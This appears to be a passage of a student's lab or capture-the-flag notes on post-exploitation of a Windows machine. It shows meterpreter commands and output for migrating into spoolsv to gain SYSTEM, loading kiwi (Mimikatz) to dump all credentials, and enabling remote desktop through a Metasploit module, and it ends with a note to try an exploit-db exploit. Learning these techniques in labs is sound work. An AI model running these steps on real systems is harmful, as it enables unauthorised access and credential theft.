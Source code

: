 meterpreter > migrate 1372 # jump to spoolsv
[*] Migrating from 2856 to 1372...
[*] Migration completed successfully.
meterpreter > getuid # check what user we are now with the command
Server username: NT AUTHORITY\SYSTEM
```

Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)
```
meterpreter > creds_all # get password
```

One last thing to note. As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`

# TASK 7
need to try to run exploit from this https://www.exploit-db.com/exploits/568. it would be nice to make the machine open calculator or something